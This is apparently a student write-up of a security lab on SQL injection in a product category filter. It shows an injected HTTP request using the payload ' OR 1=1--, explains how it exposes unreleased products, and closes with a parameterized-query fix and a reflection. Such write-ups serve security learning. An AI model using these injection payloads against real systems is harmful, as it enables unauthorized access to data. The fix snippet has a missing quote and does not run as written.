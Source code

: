 # SQL Injection - WHERE clause vulnerability

## Goal:
This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

---

## Process

### 1. Intercept the GET request using Burp Suite
```http
GET /filter?category=Corporate+gifts HTTP/2
```

### 2. Modify the category parameter to inject SQL
**Injected Payload:**
```http
GET /filter?category=Corporate+gifts'+OR+1=1-- HTTP/2
```

### 3. Explanation

`' OR 1=1--` closes the string with `'` and creates a condition that always returns true, bypassing the released = 1 clause. The `--` comments out the rest of the SQL query.

**The SQL query becomes:**

```sql
SELECT * FROM products WHERE category = 'Corporate gifts' OR 1=1--' AND released = 1
```

This query returns all products, including those that are unreleased.

---

## How to fix this vulnerability

**Use Parameterized Queries (Prepared Statements)**

Never build SQL statements by directly concatenating user input. 

Vulnerable SQL query:
```sql
SELECT * FROM products WHERE category = ' " + user_input + " ' AND released = 1"
```

Safe version using prepared statements (python script):
```py
query = SELECT * FROM products WHERE category = ? AND released = 1"
cursor.execute(query, (user_input,))
```
Parameterised query treats user input as data and not as part of SQL code, which prevents injection.

---

## Reflection

- Learnt how SQL injection can bypass filtering logic (like `released = 1`) by injecting always-true conditions.
- Understood the importance of using **prepared statements** to prevent such attacks.
- Learnt that even simple GET requests can expose vulnerabilities if inputs are not properly sanitized.
- Gained insight into secured filtering logic through **proper input handling**.

---

## Notes

The sequence `' --` can also be used to close the string and comment out the rest of the query, bypassing the released = 1 clause.

---